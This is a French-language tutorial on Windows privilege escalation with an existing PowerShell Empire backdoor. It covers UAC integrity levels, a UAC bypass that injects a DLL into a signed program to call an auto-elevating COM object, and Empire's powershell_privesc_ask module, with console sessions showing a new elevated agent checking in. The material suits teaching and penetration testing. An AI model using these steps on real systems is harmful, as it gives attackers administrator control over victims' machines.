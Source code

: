
A partir de **Windows Vista**, le concept d'**UAC** (User Account Control) à été introduit ce qui permet au process d'avoir **3 niveaux differents de permission** :

- **HIGH**: Droit **administrateur**
- **MEDIUM**: Droit d'**utilisateur** standard
- **LOW**: **Restreint** à certaines autorisations

# __High_integrity__

Pour avoir l'information sur les **permissions que nous avons** sur notre backdoor Empire, on execute la commande **[`info`](Powershell_empire#####Info)**. La ligne **high_integrity**, par defaut **False**, indique notre **niveau de permission**.

```shell
(Empire: GYRE59LF) > info

┌Agent Options─────┬───────────────────────────────────────────────┐
│ session_id       │ GYRE59LF                                      │
├──────────────────┼───────────────────────────────────────────────┤
(...)
├──────────────────┼───────────────────────────────────────────────┤
│ username         │ LAPTOP\User                                   │
├──────────────────┼───────────────────────────────────────────────┤
│ high_integrity   │ False                                         │
├──────────────────┼───────────────────────────────────────────────┤
│ process_id       │ 12828                                         │
├──────────────────┼───────────────────────────────────────────────┤
(...)
```

# __Windows 7__

## __Techniques__

Sous Windows 7, il existe plusieurs méthode pour **escalader nos privilège** :

- **Exploit d'une vulnerabilité** applicative ou système
- Faire exécuter une action en **trompant un administrateur**
- Trouver une **DB** locale de **password**
- Réutiliser des **identifiants déjà trouvés** sur une autre machine du réseau
- ...


## __Bypass UAC__

### Working

#### 1st

Certains **objets COM** ont la capacité d'**élever leurs permissions** lorsqu'ils sont appelés **depuis un programme signé** par un certificat *code signing* Microsoft.

Pour les programmes non signés, il est possible d'**injecter une dll dans un programme signé** (calc.exe par exemple). Cette dll peut donc **appeler un objet COM** qui effectuera une **auto-élévation**. 

#### 2nd

Une fois cela fait, on doit passer d'une copie de fichier à une exécution de code. Pour cela, certains programmes de Windows peuvent s'auto-elever sans notification (*sysrep* par exemple).

### Usage

Il est donc possible sur notre client windows 7 de passer administrateur avec la **commande `bypassuac`**


# __Windows 10__

## __Ask__

Une technique consiste simplement à **demander** à l'utilisateur **en boucle** jusqu'à ce qu'il accepte.

Pour cela on va utiliser le module **`powershell_privesc_ask`**.

```shell
(Empire: 9UPHL3C1) > usemodule powershell_privesc_ask
INFO: Set Agent to 9UPHL3C1 

 id           powershell_privesc_ask                                                 
 authors      Jack64, ,                                                              
 description  Leverages Start-Process -Verb runAs option inside a YES-Required loop 
              to prompt the user for a high integrity context before running the     
              agent code. UAC will report Powershell is requesting Administrator     
              privileges. Because this does not use the BypassUAC DLLs, it should    
              not trigger any AV alerts.                                             
 background   True                                                                   
 language     powershell                                                             
 needs_admin  False                                                                  
 opsec_safe   False                                                                  
 techniques   http://attack.mitre.org/techniques/T1088                               
 comments     https://github.com/rapid7/metasploit-                                  
              framework/blob/master/modules/exploits/windows/local/ask.rb            


┌Record Options────┬────────────────────┬──────────┬─────────────────────────────────────┐
│ Name             │ Value              │ Required │ Description                         │
├──────────────────┼────────────────────┼──────────┼─────────────────────────────────────┤
│ Agent            │ 9UPHL3C1           │ True     │ Agent to run module on.             │
├──────────────────┼────────────────────┼──────────┼─────────────────────────────────────┤
│ Listener         │                    │ True     │ Listener to use.                    │
├──────────────────┼────────────────────┼──────────┼─────────────────────────────────────┤
│ Obfuscate        │ False              │ False    │ Switch. Obfuscate the launcher      │
│                  │                    │          │ powershell code, uses the           │
│                  │                    │          │ ObfuscateCommand for obfuscation    │
│                  │                    │          │ types. For powershell only.         │
├──────────────────┼────────────────────┼──────────┼─────────────────────────────────────┤
│ ObfuscateCommand │ Token\All\1        │ False    │ The Invoke-Obfuscation command to   │
│                  │                    │          │ use. Only used if Obfuscate switch  │
│                  │                    │          │ is True. For powershell only.       │
├──────────────────┼────────────────────┼──────────┼─────────────────────────────────────┤
│ Bypasses         │ mattifestation etw │ False    │ Bypasses as a space separated list  │
│                  │                    │          │ to be prepended to the launcher.    │
├──────────────────┼────────────────────┼──────────┼─────────────────────────────────────┤
│ UserAgent        │ default            │ False    │ User-agent string to use for the    │
│                  │                    │          │ staging request (default, none, or  │
│                  │                    │          │ other).                             │
├──────────────────┼────────────────────┼──────────┼─────────────────────────────────────┤
│ Proxy            │ default            │ False    │ Proxy to use for request (default,  │
│                  │                    │          │ none, or other).                    │
├──────────────────┼────────────────────┼──────────┼─────────────────────────────────────┤
│ ProxyCreds       │ default            │ False    │ Proxy credentials                   │
│                  │                    │          │ ([domain\]username:password) to use │
│                  │                    │          │ for request (default, none, or      │
│                  │                    │          │ other).                             │
└──────────────────┴────────────────────┴──────────┴─────────────────────────────────────┘

(Empire: usemodule/powershell_privesc_ask) > set Listener http
INFO: Set Listener to http
(Empire: usemodule/powershell_privesc_ask) > generate
INFO: Tasked 9UPHL3C1 to run Task 2 
[*] Task 2 results received
Job started: BY5RXL
```

Puis lorsque la cible validera :

```shell
[*] Task 2 results received
[*] Successfully elevated!

[+] New agent FEXA5RKZ checked in
```

